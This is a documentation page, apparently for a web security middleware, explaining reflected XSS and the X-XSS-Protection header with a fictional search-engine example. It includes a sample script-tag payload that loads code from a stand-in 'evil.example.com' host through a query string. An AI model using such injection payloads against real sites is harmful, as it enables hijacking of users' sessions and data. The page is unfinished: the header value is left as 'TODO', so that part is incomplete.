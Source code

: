 ```yaml
---
layout: page
title: XSS Filter
permalink: /xss-filter/
---
```

In short, the `xssFilter` middleware sets the `X-XSS-Protection` header to prevent reflected XSS attacks.

The attack
----------

Cross-site scripting, abbreviated to "XSS", is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim's browser. Once a hacker has done that, there's a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

XSS is a multifaceted beast and we won't learn everything about it here. The main takeaway: if someone can run JavaScript on your page, they can attack your users and do a lot of bad things. We want to prevent it!

One kind of XSS is called "Reflected XSS". Typically, it works by setting a query string which is put directly into the HTML. Putting JavaScript in the query string can let an attacker execute their JavaScript just by giving someone a malicious query string.

For example, let's say you run a search engine called Goober. Every time you do a search, it displays your search terms right above your results. For example, let's say we've searched for "javascript jokes".

When you do a search, your search terms also appear in your query string. The full URL might look something like this:

```
https://goober.example.com/search?query=javascript+jokes
```

The search results might look like the screenshot below. Notice how the text appears right on the page:

![Screenshot of normal Goober search](/xss-filter/xss-filter-ok.png)

What if we could search for something like `<script src="http://evil.example.com/steal-data.js"></script>`? That URL would look like this:

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

And here's how it would appear on your page:

![Screenshot of malicious Goober search](/xss-filter/xss-filter-malicious.png)

Suddenly, a malicious JavaScript file was executed just because you visited a URL! That's not good.

Read more:

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

The header
----------

To be very clear: *this header does not protect you from XSS attacks much*. It protects against a very particular kind of XSS, and other mitigation measures are far better. This header provides a quick win and basic protection, but this header does not save you from XSS attacks.

It's relatively easy for browsers to detect simple reflected XSS. In the example above, browsers could choose not to execute the JavaScript inside a `<script>` tag if it matches what's in the query string. Some browsers do this detection by default, but some don't. To make these browsers check for this simple case, you can set the TODO header to TODO.

This tells browsers to detect and block reflected XSS.

This header causes some *even worse* security vulnerabilities in older versions of Internet Explorer, so it's wise to disable it there.
